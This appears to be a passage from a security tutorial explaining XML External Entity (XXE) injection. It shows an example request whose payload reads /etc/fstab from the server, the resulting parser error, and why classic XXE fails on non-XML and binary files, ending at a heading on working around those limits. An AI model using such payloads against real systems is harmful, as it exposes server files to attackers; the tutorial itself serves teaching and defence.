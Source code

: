 ## Restrictions
For the classic usage of XXE, it is usually more convenient to read the file, but it also determines that the content element that can be parsed must be an XML document.    

As an example:   
request:   
```
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/fstab">;
]>
<foo>
  &bar;
</foo>
```   
(usual) response:   
```
HTTP / 1.0 500 Internal Server Error

File "file: /// etc / fstab", line 3
lxml.etree.XMLSyntaxError: Specification mandate value for attribute system, line 3, column 15 ...
```   
/etc/fstabIs a file containing some characters that look like XML (even if they are not XML). This will cause the XML parser to try to parse these elements, only to notice that it is not a valid XML document.

### THEREFORE~!
this limits XML External Entities (XXE) in two important ways.   
1. XXE can only be used to get files or responses containing "valid" XML   
2. XXE cannot be used to get binary files   


## XML External Entities (XXE) Restriction Solution
